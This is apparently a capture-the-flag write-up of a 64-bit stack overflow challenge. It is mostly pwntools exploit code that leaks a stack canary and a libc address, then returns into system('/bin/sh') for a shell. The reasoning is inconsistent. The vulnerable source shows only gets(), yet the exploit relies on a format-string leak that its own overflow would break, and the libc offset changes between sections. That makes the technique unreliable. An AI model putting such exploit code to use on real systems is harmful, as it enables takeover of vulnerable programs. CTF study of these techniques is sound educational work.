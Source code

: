 # Stack Overflow Binary Exploitation

**Category:** Binary Exploitation  
**Event:** PWNYcup  
**Difficulty:** Hard  
**Date:** 2024-12-07  
**Author:** Mounir Mostefai

## Description

A comprehensive guide to exploiting stack overflow vulnerabilities in modern
binaries with stack canaries and ASLR protections.

## Challenge Overview

In this challenge, we're given a 64-bit ELF binary that appears to have a stack
overflow vulnerability. However, the binary is compiled with modern protections
including:

- Stack canaries (SSP)
- ASLR (Address Space Layout Randomization)
- NX bit (Non-executable stack)

## Initial Analysis

Let's start by examining the binary:

```bash
file challenge
checksec challenge
```

Output:

```
challenge: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=abc123..., not stripped

RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Vulnerability Discovery

Running the binary and examining the source code reveals a classic buffer
overflow in the `vulnerable_function()`:

```c
void vulnerable_function() {
    char buffer[64];
    printf("Enter your input: ");
    gets(buffer);  // Vulnerable function!
    printf("You entered: %s\n", buffer);
}
```

## Exploitation Strategy

Since we have stack canaries, we need to:

1. Leak the canary value
2. Leak libc addresses to bypass ASLR
3. Build our ROP chain
4. Trigger the overflow with proper canary

### Step 1: Information Leaks

First, we need to find format string vulnerabilities or other ways to leak
memory:

```python
#!/usr/bin/env python3
from pwn import *

# Setup
binary = ELF('./challenge')
libc = ELF('./libc.so.6')
p = process('./challenge')

# Leak canary using format string bug
payload = b"A" * 64 + b"%7$p"
p.sendline(payload)
response = p.recvline()
canary = int(response.split()[-1], 16)
log.info(f"Leaked canary: {hex(canary)}")
```

### Step 2: Bypass ASLR

```python
# Leak libc base address
payload = b"A" * 64 + b"%15$p"
p.sendline(payload)
response = p.recvline()
libc_leak = int(response.split()[-1], 16)
libc.address = libc_leak - libc.symbols['__libc_start_main'] - 243
log.info(f"Libc base: {hex(libc.address)}")
```

### Step 3: ROP Chain Construction

```python
# Build ROP chain
rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh')))

# Construct final payload
payload = b"A" * 64          # Fill buffer
payload += p64(canary)       # Preserve canary
payload += b"B" * 8          # Saved RBP
payload += rop.chain()       # ROP chain

p.sendline(payload)
p.interactive()
```

## Complete Exploit

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

binary = ELF('./challenge')
libc = ELF('./libc.so.6')

def exploit():
    p = process('./challenge')

    # Step 1: Leak canary
    log.info("Leaking stack canary...")
    payload = b"A" * 64 + b"%7$p"
    p.sendline(payload)
    canary = int(p.recvline().strip().split()[-1], 16)
    log.success(f"Canary leaked: {hex(canary)}")

    # Step 2: Leak libc
    log.info("Leaking libc address...")
    payload = b"A" * 64 + b"%15$p"
    p.sendline(payload)
    libc_leak = int(p.recvline().strip().split()[-1], 16)
    libc.address = libc_leak - 243
    log.success(f"Libc base: {hex(libc.address)}")

    # Step 3: ROP chain
    log.info("Building ROP chain...")
    rop = ROP(libc)
    rop.system(next(libc.search(b'/bin/sh')))

    # Final payload
    payload = b"A" * 64
    payload += p64(canary)
    payload += b"B" * 8
    payload += rop.chain()

    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    exploit()
```

## Flag

```
shellmates{st4ck_0v3rfl0w_w1th_c4n4ry_byp4ss_2024}
```

## Files

- challenge - The vulnerable binary
- libc.so.6 - The system libc library
- exploit.py - Complete exploitation script

## References

- [Stack Canaries Explained](https://ctf101.org/binary-exploitation/stack-canaries/)
- [Return-to-libc Attacks](https://en.wikipedia.org/wiki/Return-to-libc_attack)
- [ASLR Bypass Techniques](https://github.com/shellmates/writeups)

---

_This writeup demonstrates advanced binary exploitation techniques for
educational purposes only._
